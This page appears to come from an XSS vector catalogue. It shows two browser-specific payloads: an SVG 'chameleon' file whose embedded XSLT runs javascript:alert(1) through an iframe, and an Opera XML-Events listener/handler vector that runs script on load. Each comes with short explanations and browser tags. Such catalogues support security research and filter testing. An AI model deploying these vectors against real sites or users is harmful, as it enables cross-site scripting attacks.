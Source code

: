 *   xss

*   javascript
*   svg
*   css
*   xml
*   style

reporter：LeverOne

### SVG chameleon behavior via embedded XSLT#125test

This SVG chameleon file can be embedded via <embed> on most, and via <img> on most modern browsers. Thanks to the embedded XSLT stylesheet, it will change it's appearance, depending on how it is embedded or displayed. In an <img> tag it just shows a red dot. But opened directly or via an <iframe> or <embed>, the XSLT turns all SVG into (X)HTML and an alert will show. While most modern browsers show this behavior, Opera will completely mess it up, and show an alert when used via <embed> and an <iframe> when used via <img> (!). Chrome will show a broken image and an alert.

```
<?xml version="1.0"?> <?xml-stylesheet type="text/xml" href="#stylesheet"?> <!DOCTYPE doc [ <!ATTLIST xsl:stylesheet id ID #REQUIRED>]> <svg > <xsl:stylesheet id="stylesheet" version="1.0" > <xsl:template match="/"> <iframe  src="javascript:alert(1)"></iframe> </xsl:template> </xsl:stylesheet> <circle fill="red" r="40"></circle> </svg> 
```

*   internet explorer 9.0
*   internet explorer latest

*   firefox 3.x

*   firefox latest

*   svg

*   html
*   chameleon
*   xslt
*   embedded
*   xss

*   [`www.w3.org/Graphics/SVG/`](http://www.w3.org/Graphics/SVG/)

*   [`www.w3.org/TR/xslt`](http://www.w3.org/TR/xslt)
*   [`www.dpawson.co.uk/xsl/sect2/onefile.html`](http://www.dpawson.co.uk/xsl/sect2/onefile.html)

reporter：.mario

### Opera 中通过 listener 执行 JavaScript 代码#127test

示例向量，与#94 相关，展示了 listener 标签和 handler 标签的组合是如何被利用，从 SVG 元素中加载事件去触发 JavaScript，使其执行。到目前为止，只有 Opera 支持 XML 事件和相关元素。不需要用户交互即可执行 JavaScript 语句。

```
<svg  id="x"> <listener event="load" handler="#y"  observer="x"/> <handler id="y">alert(1)</handler> </svg> 
```

*   opera 9.0
*   opera 12.0

*   svg
